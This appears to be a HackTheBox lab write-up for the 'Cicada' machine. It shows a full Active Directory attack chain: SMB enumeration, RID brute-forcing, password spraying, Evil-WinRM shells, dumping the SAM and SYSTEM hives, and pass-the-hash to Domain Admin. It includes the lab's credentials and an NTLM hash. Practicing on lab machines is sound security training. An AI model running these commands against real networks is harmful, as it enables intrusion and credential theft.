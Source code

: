```yaml
---
title: "HackTheBox - Cicada"
date: 2025-05-16
draft: false
series: "HTB Machines"
tags: ["active directory", "hackthebox", "windows"]
---
```



# Cicada Walkthrough

## 1. Initial Nmap Enumeration

Identify open ports and services on the target.

```bash
# Discover some TCP ports
nmap -sVC -T4 10.10.11.35 -oA nmapScan-out
```

**Key findings:**

![nmap](/images/cicada-nmap.png)

---

## 2. SMB Anonymous Enumeration

### 2.1 Check SMB shares as anonymous

```bash
smbclient -L 10.10.11.35 -N
```

![anony](/images/cicada-smbanony.png)

- `HR` share is accessible.

### 2.2 Download `Notice from HR.txt` from HR share

```bash
smbclient //10.10.11.35/HR -N
> ls
> mget *
```

![anony](/images/cicida-HR-ls2.png)

Checking out the content:
![anony](/images/cicada-firstpass.png)

> **Discovery:** The file contains a password: `Cicada$M6Corpb*@Lp#nZp!8`

---

## 3. RID Brute-Force to Enumerate Users

Using NetExec (`nxc`) to perform RID brute force without credentials.

```bash
nxc smb 10.10.11.35 -u anonymous -p '' --rid-brute
```

![rid brute](/images/cicada-ridbrute.png)

Filter only user accounts and save to `users.txt`:

```bash
nxc smb 10.10.11.35 -u anonymous -p '' --rid-brute | grep "SidTypeUser" | cut -d '\' -f2 | cut -d ' ' -f1 > users.txt

```

---

## 4. Password Spraying with Valid Users

Perform a password spray using the discovered password `Cicada$M6Corpb*@Lp#nZp!8` against the user list.

```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![spray](/images/cicada-spray.png)

> **Success:** Credentials for `michael.wrightson` found.

---

## 5. Attempt Remote Shell with Evil-WinRM

Try to get a shell via WinRM using the valid credentials.

```bash
evil-winrm -i 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'
```
> **Result:** Access denied.

---

## 6. Check Additional Users with valid credentials

```bash
nxc smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
![find users](/images/cicada-users.png)

> **Discovery:** User `david.orelious` found with the password `aRt$Lp#7t*VQ!3` on his description.


## 7. List shares with the new user

Initially, we identified a DEV share, but access was denied. Let's try with the new user:

```bash
smbclient //10.10.11.35/DEV -U david.orelious
> aRt$Lp#7t*VQ!3
> dir
> mget *
```
![dev share](/images/cicada-dev.png)

![backup file](/images/cicada-backupfile.png)

**Discovery:** Powershell backup file with new credentials `emily.oscars:Q!3@Lp#M6b*7t*Vt`.

---


## 9. WinRM Access with New User Account

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

> **Success:** Shell as `emily.oscars`.

---

## 10. Privilege Escalation

Check current privileges:

```powershell
whoami /priv
```

![privesc](/images/cicada-priv.png)

> **SeBackupPrivilege** is `Enabled`.

---

## 11. Abuse SeBackupPrivilege for Lateral/Local Escalation

### 11.1 Dump SAM and SYSTEM hives

```powershell
# Create directory for dumps
mkdir C:\temp

# Save registry hives
reg save HKLM\SAM C:\temp\sam
reg save HKLM\SYSTEM C:\temp\system

# Download files with "download" from evil-winrm
download sam
download system
```

### 11.2 Extract NTLM hashes offline

```bash
impacket-secretsdump -sam sam -system system LOCAL > hashes.txt
```
![dump hashes](/images/cicada-hash.png)

### 11.3 Pass-the-Hash to Domain Controller

Use Evil-WinRM with the extracted Administrator NTLM hash:

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```
![alt text](/images/cicada-admin.png)


> **Result:** Shell as **Domain Administrator** on the DC.

---

*End of Walkthrough*